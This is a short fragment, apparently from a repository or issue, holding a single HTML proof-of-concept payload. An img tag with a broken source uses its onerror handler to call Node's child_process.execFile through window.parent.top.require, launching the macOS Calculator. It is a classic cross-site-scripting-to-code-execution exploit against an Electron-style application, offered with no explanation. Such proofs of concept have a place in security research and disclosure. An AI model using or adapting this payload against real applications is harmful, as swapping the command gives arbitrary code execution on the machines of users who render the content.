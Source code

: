 
<img src=x onerror="javascript:
window.parent.top.require('child_process').execFile('/Applications/Calculator.app',function(error, stdout, stderr){});">